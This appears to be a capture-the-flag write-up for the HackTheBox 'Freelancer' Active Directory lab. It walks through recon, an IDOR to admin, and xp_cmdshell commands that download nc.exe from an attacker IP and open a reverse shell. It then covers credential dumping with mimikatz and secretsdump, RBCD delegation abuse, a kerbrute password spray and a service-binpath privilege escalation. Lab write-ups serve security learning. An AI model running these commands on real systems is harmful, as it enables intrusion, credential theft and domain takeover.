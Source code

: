 #  Initial Reconnaissance

Nmap Results:

```
53/tcp: Simple DNS Plus
80/tcp: nginx 1.25.5
88/tcp: Microsoft Windows Kerberos
135/tcp: Microsoft Windows RPC
139/tcp: Microsoft Windows netbios-ssn
389/tcp: Microsoft Windows Active Directory LDAP
445/tcp: Microsoft Windows SMB
464/tcp: Kerberos kpasswd5
593/tcp: Microsoft Windows RPC over HTTP
3268/tcp: Microsoft Windows Active Directory LDAP
5985/tcp: Microsoft HTTPAPI httpd 2.0
9389/tcp: .NET Message Framing
49670/tcp - 62402/tcp: Microsoft Windows RPC
```

#  port 80

Web Application Access:

- Create accounts as employee.
- Reset the password for the employee account to bypass login errors. IDOR Vulnerability:
- Capture and decode the QR code URL to identify an IDOR vulnerability.
- Modify the decoded ID to gain admin access by changing the encoded base64 ID to `2`.

#  Gaining SQL Shell

- Access SQL Terminal: Execute commands in the SQL terminal from the admin panel.
- Enable xp_cmdshell:

```
EXECUTE AS LOGIN = 'sa';
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell "powershell.exe wget http://10.10.14.62/nc.exe -OutFile c:\\Users\\Public\\nc.exe"
EXECUTE xp_cmdshell "powershell.exe c:\Users\Public\nc.exe -e cmd.exe 10.10.14.62 4444"
```

- Get Reverse Shell: Use xp_cmdshell to obtain a reverse shell as `SQL_SVC`

#  Lateral Movement

Enumerate SQL_SVC:

- Retrieve passwords for the user `mikasaAckerman` stored in `\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI`.
- Get shell as `mikasaAckerman` using `RunasCs` Get `user.txt`
- Bloodhound Data Collection:

```
python3 bloodhound.py -u mikasaAckerman -p 'PASSWORD' -d freelancer.htb -ns IP -c all
```

Memory Dump and Mail.txt:

- Memory Dump: Found in MEMORY.7z, containing the dump of the processes of the whole server.
- Mimikatz: Use to extract credentials.
- Extract `lsass.exe`: Remove the process `lsass.exe` from the dump, focusing on lsass.exe to dump the SAM.
- SAM Extraction: Find `lorra199`’s password in the SAM.

Shell as lorra199:

- Use Evil-winrm to gain access as `lorra199` using the found credentials
- If we look at the bloodhound data we can see that `lorra199` is a member of the `AD Recycle Bin` and has generic rights on the domain controller. WE can use this rights to abuse `rbcd (resource-based constrained delegation)` and impersonate as `Administrator`

Add Computer Account:

```
addcomputer.py -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```

Grant Delegation Rights:

```
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -dc-ip 10.xx.xx.xx -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```

#  Domain Admin Access

- Get Service Ticket using `getST.py`
    
    ```
    getST.py -spn 'cifs/DC.freelancer.htb' -impersonate Administrator -dc-ip 10.xx.xx.xx 'freelancer.htb/ATTACKERSYSTEM$:Summer2018!'
    ```
    
- Dump Hashes using `secretsdump.py`
    
    ```
    secretsdump.py 'freelancer.htb/Administrator@DC.freelancer.htb' -k -no-pass -dc-ip 10.xx.xx.xx -target-ip 10.xx.xx.xx -just-dc-ntlm
    ```
    
- use Evil-WInrm to gain access and `Administrator` and get `root.txt`

#  Probably Unintended

- Spray the passwords using kerbrute
    
    ```
    for i in `cat passwords.txt`; do ./kerbrute_linux_amd64 passwordspray -d freelancer.htb --dc 10.10.11.15 userlist.txt $i;done > output.txt
    ```
    
- You will get password for jmartinez
    
    ```
    .\RunasCs.exe jmartinez "v3ryS0l!dP@sswd#35" cmd.exe -r 10.10.xx.xx:PORT
    ```
    

ROOT FLAG:

- Abuse the server operator

```
sc.exe stop VMTools
sc.exe config VMTools binpath="cmd /c net localgroup administrators jmartinez /add"
sc.exe start VMTools
```